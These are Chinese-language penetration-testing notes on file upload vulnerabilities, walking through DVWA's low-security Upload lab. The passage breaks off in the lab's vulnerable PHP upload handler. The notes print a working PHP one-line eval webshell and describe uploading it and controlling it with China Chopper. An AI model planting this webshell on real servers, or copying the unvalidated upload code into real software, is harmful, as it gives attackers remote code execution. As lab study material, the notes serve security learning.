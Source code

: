 kali 联网方式：https://nimdati.com/2020/01/18/kali-linux-virtualbox-2-network-adapters-nat-host-only-dhcp/

# 文件上传漏洞渗透攻击

## 原理

> 日常渗透测试中用得最多的一个漏洞，用它获得服务器权限最快最直接最有效，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件，有没有经过检测验证，如果服务器的处理逻辑做的不够安全，则会导致严重的后果
>
> 指由于程序员未对上传的文件进行<u>严格的验证和过滤</u>、没有限制上传类型或者限制不严格被绕过，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件，这里上传的文件可以是木马，病毒，恶意脚本或者 WebShell 等，导致网站被控制和服务器沦陷等，主要攻击 Web 服务
>
> 正常的文件一般是文档、图片、视频等，Web 应用收集之后放入后台储存，需要的时候再调出来返回；如果恶意文件如 PHP、ASP 等执行文件绕过 Web 应用并顺利执行，相当于黑客直接拿到了 Webshell，则可以拿到 Web 应用的数据，执行删除 Web 文件、本地提权、拿下服务器甚至整个内网等操作
>
> > webshell 常常被称为入侵者通过网站端口对网站服务器的某种程度上<u>操作的权限</u>
> >
> > 由于 webshell 其大多是以动态脚本的形式(asp、php、jsp)出现，也称之为<u>网站的后门工具</u>
> >
> > webshell 是 web 应用类似于 bash 的 shell 应用程序，bash 是控制 Linux 系统的，webshell 控制网站
>

![](fileupload.png)

DVWA 的 Upload 测试

- low security
  - 能够成功上传 php 文件(上传任意文件类型)
  - 会在页面显示路径`../../hackable/uploads/webshell.php`，在浏览器中输入`http://192.168.50.129/dvwa/vulnerabilities/upload/../../hackable/uploads/webshell.php`得到地址`http://192.168.50.129/dvwa/hackable/uploads/webshell.php`
  - 上传 php，内容为`<?php @eval($_POST['pass']);?>(一句话木马)`，pass 为中国菜刀的密码
    ```bash
    php中
    @:阻止警告输出，不显示错误信息
    $:变量
    &:变量的地址

    eval( string $code) — 把字符串作为PHP代码执行，允许执行任意 PHP 代码
    该字符串必须是合法的 PHP 代码，且必须以分号结尾
    ```
  - 打开中国菜刀，右键添加，输入`http://192.168.50.129/dvwa/hackable/uploads/webshell.php`和密码，右键文件管理，能够看到所有文件
    ![](filemanage.png)
    ```php
    <?php
        if (isset($_POST['Upload'])) {

                $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
                $target_path = $target_path . basename( $_FILES['uploaded']['name']);
